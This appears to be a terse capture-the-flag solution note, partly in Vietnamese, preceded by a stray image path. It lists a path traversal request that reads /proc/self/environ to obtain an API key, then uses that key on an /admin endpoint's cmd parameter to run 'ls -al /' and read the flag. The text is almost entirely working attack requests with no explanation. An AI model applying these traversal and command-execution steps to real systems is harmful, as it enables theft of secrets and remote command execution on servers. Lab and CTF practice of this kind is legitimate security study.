 /file?path=../../../../proc/self/environ   -> lấy API_KEY

/admin?API_KEY=d22cb18e86fc9e23996650150461c9f794ad3a4f&cmd=ls%20-al%20/

/admin?API_KEY=d22cb18e86fc9e23996650150461c9f794ad3a4f&cmd=/flag